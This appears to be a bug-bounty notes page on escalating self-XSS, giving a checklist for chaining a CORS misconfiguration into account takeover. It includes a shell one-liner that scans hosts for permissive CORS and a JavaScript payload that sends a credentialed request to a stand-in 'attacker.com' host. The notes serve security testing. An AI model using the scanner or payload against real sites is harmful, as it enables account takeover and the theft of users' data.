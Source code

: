 # Self-XSS Bypass

### Using fetchLater()&#x20;

{% embed url="https://x.com/ctbbpodcast/status/1940085637912186998" %}

{% embed url="https://x.com/Ahmex000/status/1940537438512013645?ref_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1940537438512013645%7Ctwgr%5Ed432e73b5c4dfc3624db3828e5e29e8be256d3fa%7Ctwcon%5Es1_&ref_url=https%3A%2F%2Fwww.notion.so%2Fm8szt8%2F23634f652d07804593b9d9f936762491%3Fv%3D23634f652d078035af64000c66067777p%3D23634f652d07819e90faedb1e594746epm%3Ds" %}



### CORS + Self-XSS to ATO Checklist

1. **Got Self-XSS?**: Confirm self-XSS vulnerability.
2. **Check CORS Misconfig**: Run `cat corstexturl.txt | CorsMe` or `cat corstexturl.txt | soru -u | anew | while read host; do curl -s --path-as-is --insecure -H "Origin: test.com" "$host" | grep -qs "Access-control-allow-origin: test.com" && echo "$host \033[0;31m cors Vulnerable"; done`.
3.  **Exploit CORS**: Replace XSS payload with:

    ```javascript
    function cors() {
      var xhttp = new XMLHttpRequest();
      xhttp.onreadystatechange = function() {
        if (this.status == 200) {
          alert(this.responseText);
          document.getElementById("demo").innerHTML = this.responseText;
        }
      };
      xhttp.open("GET", "https://www.attacker.com/api/account", true);
      xhttp.withCredentials = true;
      xhttp.send();
    }
    cors();
    ```

### References

* [fetchLater() Research](https://blog.slonser.info/posts/make-self-xss-great-again/)
* [CORS + XSS ATO](https://notifybugme.medium.com/chaining-cors-by-reflected-xss-to-account-takeover-my-first-blog-5b4f12b43c70)
* [X Thread](https://x.com/ctbbpodcast/status/1940085637912186998)
